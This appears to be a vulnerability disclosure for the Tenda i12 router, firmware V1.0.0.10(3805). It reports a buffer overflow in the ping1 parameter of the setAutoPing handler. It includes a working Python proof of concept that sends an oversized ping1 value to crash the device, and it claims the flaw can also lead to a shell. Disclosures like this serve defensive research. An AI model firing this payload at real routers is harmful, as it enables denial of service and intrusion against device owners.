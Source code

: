 The ping1 parameter in the formSetAutoPing function was found to contain a buffer overflow.
-------------------------------------------------------------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [i12升级软件](https://www.tenda.com.cn/material/show/102572)

![](api/attachments/Fi9mdrMuzu8X/image/image.png)

### Affected version

V1.0.0.10(3805)

### Vulnerability details

`Tenda` Router **i12** V1.0.0.10(3805) was discovered to contain a buffer overflow in the module when handling request.`httpd/goform/setAutoPing`. You can create dos or getshell attacks by building payload

![](api/attachments/Q9opdg8DNQIg/image/image.png)

### poc

This POC can result in a Dos.

```text-plain
import requests

url = "http://192.168.142.100/goform/setAutoPing"

data = {
    "linkEn": "1",
    "ping1": "A" * 1000  
}

response = requests.post(url, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![](api/attachments/zWEgiWghGK4j/image/image.png)